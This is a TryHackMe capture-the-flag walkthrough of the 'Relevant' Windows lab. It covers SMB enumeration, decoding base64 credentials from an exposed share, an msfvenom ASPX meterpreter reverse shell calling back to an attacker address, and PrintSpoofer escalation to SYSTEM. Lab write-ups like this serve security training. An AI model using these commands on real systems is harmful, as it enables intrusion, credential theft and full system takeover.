

## Relevant – TryHackMe Walkthrough

---

**Author:** Sanjay D
**THM-Profile:** cyberdragon1 \[0x9]\[MAGE]

---


### 🔍 Enumeration Phase

### 🔎 Nmap Full Port and Service Scan

We start by scanning the target machine using `nmap` to identify open ports and running services.

**Command:**

```bash
sudo nmap -sV -A -sS -T4 -sC 10.10.236.238
```


**Discovered Open Ports:**

* **80/tcp** – Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* **135/tcp** – Microsoft RPC
* **139/tcp** – NetBIOS Session Service
* **445/tcp** – SMB
* **3389/tcp** – Microsoft Remote Desktop (RDP)

The scan reveals a web server running on **port 80**. The server uses **Microsoft HTTPAPI httpd 2.0**. Visiting the IP in a browser displays the **default Microsoft IIS page**.


---

## 🌐 Web Directory Enumeration

We attempt to find hidden web directories using `gobuster`.

**Command:**

```bash
gobuster dir -u http://10.10.236.238 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```


**Result:**
No useful or interesting directories were found from the scan.

---

## 📁 SMB Enumeration

Since ports **139** and **445** are open, we proceed with SMB enumeration.


**Command:**

```bash
smbclient -L 10.10.236.238
```


We discover an **unusual SMB share** named `nt4wrksv`. Let's attempt to access it.

**Command:**

```bash
smbclient \\\\10.10.236.238\\nt4wrksv
```


**Inside the share**, we find a file called `passwords.txt`. We download it for local inspection.

---

## 🔐 Credential Extraction

Inspecting the `passwords.txt` file shows two **Base64-encoded** strings.

We decode them to extract the plaintext credentials:

```bash
echo <base64> | base64 -d
```


We obtain credentials for **two users**:

* **Bob**
* **Bill**

These credentials are noted down for use during privilege escalation or lateral movement.

---

## 📉 SMB Vulnerability Scan

We suspect there might be a known vulnerability in the SMB service. To confirm, we run an `nmap` scan with SMB vulnerability scripts.

**Command:**

```bash
nmap -p 445 --script smb-vuln-* 10.10.236.238
```


The scan confirms that the target is **vulnerable to CVE-2017-0143**, which corresponds to **EternalBlue** (MS17-010).


---

## 💥 Exploitation Phase

### 🔍 EternalBlue via Metasploit

We attempt to exploit EternalBlue using the Metasploit Framework.

**Commands:**

```bash
msfconsole
search CVE-2017-0143
```


We configure the appropriate module and payload. However, the exploit **fails** due to **Inbound restrictions or mitigation in place**, meaning we cannot execute a direct shell from our attacker system.

---

### 🐚 Reverse Shell via SMB Share

We shift to a **reverse shell approach** using the accessible SMB share and HTTP server.

#### 🧪 Create ASPX Reverse Shell

We use `msfvenom` to craft a reverse shell in **ASPX format**:

**Command:**

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.17.103.233 LPORT=8765 -f aspx -o reverse_shell.aspx
```


#### 📤 Upload Reverse Shell

We upload `reverse_shell.aspx` to the `nt4wrksv` SMB share.

#### 🎯 Set Up Metasploit Handler

**Commands:**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.17.103.233
set LPORT 8765
run
```


#### 🧠 Trigger Payload

We visit the following URL to execute the payload:

```
http://10.10.236.238:49663/nt4wrksv/reverse_shell.aspx
```

Once triggered, the **Meterpreter session** opens and we gain access to the target machine. Executing `shell` inside Meterpreter provides an interactive command prompt.

We navigate to Bob's user profile and extract the first flag:

**Path:**

```
C:\Users\Bob\Desktop\user.txt
```


✅ **User flag captured!**

---

## 🧬 Privilege Escalation

### 🔎 Privilege Enumeration

Inside the Meterpreter session, we check privileges:

```bash
getprivs
```


We discover the machine has the **SeImpersonatePrivilege**, which is exploitable using the **PrintSpoofer** technique.

---

### 🔧 Using PrintSpoofer for PrivEsc

#### 📥 Upload PrintSpoofer

We download `PrintSpoofer64.exe` from GitHub and upload it to the same SMB share used earlier.


We then move to the share directory via the shell:

```bash
cd \inetpub\wwwroot\nt4wrksv
```

#### ⚙️ Execute PrintSpoofer

Run the following command to elevate privileges:

```bash
PrintSpoofer64.exe -i -c powershell.exe
```


This grants a **SYSTEM-level PowerShell shell**, confirming successful privilege escalation.

---

### 🏁 Root Flag

Now we move to the Administrator user’s Desktop to find the root flag.


**Path:**

```
C:\Users\Administrator\Desktop\root.txt
```


✅ **Root flag captured!**

---

## ✅ Summary Table

| Step                     | Details                                                         |
| ------------------------ | --------------------------------------------------------------- |
| Nmap Scan                | Ports 80, 135, 139, 445, 3389 open                              |
| Web Enum                 | IIS Default Page on port 80, no hidden directories              |
| SMB Enum                 | Share `nt4wrksv` discovered with `passwords.txt`                |
| Credentials Found        | Bob and Bill (base64-decoded from passwords.txt)                |
| Vulnerability Discovered | CVE-2017-0143 (EternalBlue / MS17-010)                          |
| Exploit Attempt          | EternalBlue failed (outbound blocked)                           |
| Reverse Shell Approach   | ASPX shell uploaded via SMB, triggered via browser              |
| Shell Access             | Meterpreter shell gained → converted to CMD shell               |
| Privilege Escalation     | PrintSpoofer.exe used via SeImpersonatePrivilege → SYSTEM shell |
| Flags                    | `user.txt` from Bob, `root.txt` from Administrator              |

* Pwned Relevant !!!!


---
